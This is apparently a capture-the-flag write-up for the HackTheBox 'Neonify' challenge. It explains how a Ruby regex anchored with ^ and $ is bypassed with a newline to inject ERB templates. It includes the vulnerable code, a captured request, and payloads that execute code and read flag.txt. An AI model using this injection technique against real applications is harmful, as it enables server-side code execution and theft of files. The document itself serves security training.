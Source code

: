 # Neonify Challenge - Bypassing Ruby Regex

We are faced with a site with a text box.

![neonifymain](https://github.com/7Pawns/HackTheBox-Writeups/assets/124451776/e0f0ffb8-dbe2-468d-af2b-c23e9dd663e0)

Whatever we type in the text box will show up below with a glow affect.

We are also provided with the website's backend files, which are written in ruby.

When we try to input a ruby script like ```<%= 7*7 %>``` we are provided with a ```malicious input``` output.

Nothing interesting is found in GoBuster, and Nmap isn't used in challenges.

While poking around the files we find __neon.rb__, and inside it the function that processes the text we provide in the text box, and we see our input goes through a regex:
```rb

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end 
```
```^``` and ```$``` are known as dangerous Regex characters in ruby, as they only match until a new line character.

With that we can find our plan - Write a string that will match the Regex, add a new line at the end and then add a payload, which int this case will be a ruby script.

Let's fire up BurpSuite and get going. We capture a sample POST request, and we see there is a parameter called ```neon``` which we will use to deliver the payload.

```http
POST / HTTP/1.1

Host: 178.62.74.235:31790

Content-Length: 8

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://178.62.74.235:31790

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://178.62.74.235:31790/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close



neon=abc
```

First we test ```abc\n<%= 7*7 %>```,  so lets try and URL-Encode it.
We get 49 so we achieved code execution. From here we just need to print out the flag.

![neonifysample](https://github.com/7Pawns/HackTheBox-Writeups/assets/124451776/cb1fab97-8c48-4000-83ed-a714818481fd)

From looking at the files we find the flag in the same directory so our payload will look like this   
```abc\n<%= File.read("flag.txt") %>```. Let's URL encode it and see if it works.

![neonifyflag](https://github.com/7Pawns/HackTheBox-Writeups/assets/124451776/99d9deb6-b49b-443f-be08-0830a584c85c)

And we got the flag.
